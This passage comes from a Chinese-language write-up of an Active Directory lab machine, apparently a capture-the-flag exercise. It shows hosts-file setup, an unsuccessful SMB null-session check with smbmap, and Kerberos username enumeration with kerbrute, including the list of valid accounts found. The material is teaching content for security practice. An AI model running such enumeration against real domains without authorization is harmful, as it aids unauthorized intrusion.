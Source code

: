 
```PowerShell
域名 SOUPEDECODE
```
先配置hosts

```PowerShell
vim /etc/hosts
192.168.56.126 SOUPEDECODE.LOCAL DC01.SOUPEDECODE.LOCAL
```
### 2.2. SMB空会话检测

目标开放了 139 445端口

smbmap 检测一下是否存匿名登录与来宾登录

```PowerShell
─# smbmap -u anonymous -H SOUPEDECODE.LOCAL

    \_\_\_\_\_\_\_\_  \_\_\_      \_\_\_  \_\_\_\_\_\_\_   \_\_\_      \_\_\_       \_\_         \_\_\_\_\_\_\_
   /"       )|"  \    /"  ||   \_  "\ |"  \    /"  |     /""\       |   \_\_ "\
  (:   \\_\_\_/  \   \  //   |(. |\_)  :) \   \  //   |    /    \      (. |\_\_) :)
   \\_\_\_  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  \_\_\_\_/
    \_\_/  \   |: \.        |(|  \_  \  |: \.        |  //  \_\_'  \    (|  /
   /" \   :) |.  \    /:  ||: |\_)  :)|.  \    /:  | /   /  \   \  /|\_\_/ \
  (\_\_\_\_\_\_\_/  |\_\_\_|\\_\_/|\_\_\_|(\_\_\_\_\_\_\_/ |\_\_\_|\\_\_/|\_\_\_|(\_\_\_/    \\_\_\_)(\_\_\_\_\_\_\_)
 -----------------------------------------------------------------------------
     SMBMap - Samba Share Enumerator | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[\*] Detected 1 hosts serving SMB
[\*] Established 0 SMB session(s)
```
发现目标并没有开启SMB 空会话 与LDAP匿名登录

## 3. kerbrute 爆破

我们利用常见用户名作为字典 对Kerberos 身份验证来枚举域中可能存在的用户。

```PowerShell
kerbrute userenum -d SOUPEDECODE.LOCAL -t 50 --dc DC01.SOUPEDECODE.LOCAL /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -o valid\_user.txt

    \_\_             \_\_               \_\_
   / /\_\_\_\_\_  \_\_\_\_\_/ /\_  \_\_\_\_\_\_\_  \_\_/ /\_\_\_\_
  / //\_/ \_ \/ \_\_\_/ \_\_ \/ \_\_\_/ / / / \_\_/ \_ \
 / ,< /  \_\_/ /  / /\_/ / /  / /\_/ / /\_/  \_\_/
/\_/|\_|\\_\_\_/\_/  /\_.\_\_\_/\_/   \\_\_,\_/\\_\_/\\_\_\_/

Version: v1.0.3 (9dad6e1) - 11/20/24 - Ronnie Flathers @ropnop

2024/11/20 12:10:37 >  Using KDC(s):
2024/11/20 12:10:37 >   DC01.SOUPEDECODE.LOCAL:88

2024/11/20 12:10:37 >  [+] VALID USERNAME:       admin@SOUPEDECODE.LOCAL
2024/11/20 12:10:37 >  [+] VALID USERNAME:       charlie@SOUPEDECODE.LOCAL
2024/11/20 12:10:38 >  [+] VALID USERNAME:       Charlie@SOUPEDECODE.LOCAL
2024/11/20 12:10:38 >  [+] VALID USERNAME:       administrator@SOUPEDECODE.LOCAL
2024/11/20 12:10:38 >  [+] VALID USERNAME:       Admin@SOUPEDECODE.LOCAL
2024/11/20 12:10:38 >  [+] VALID USERNAME:       Administrator@SOUPEDECODE.LOCAL
2024/11/20 12:10:38 >  [+] VALID USERNAME:       CHARLIE@SOUPEDECODE.LOCAL
2024/11/20 12:10:40 >  [+] VALID USERNAME:       ADMIN@SOUPEDECODE.LOCAL
2024/11/20 12:11:04 >  [+] VALID USERNAME:       wreed11@SOUPEDECODE.LOCAL
2024/11/20 12:12:02 >  [+] VALID USERNAME:       printserver@SOUPEDECODE.LOCAL
2024/11/20 12:12:57 >  [+] VALID USERNAME:       kleo2@SOUPEDECODE.LOCAL
```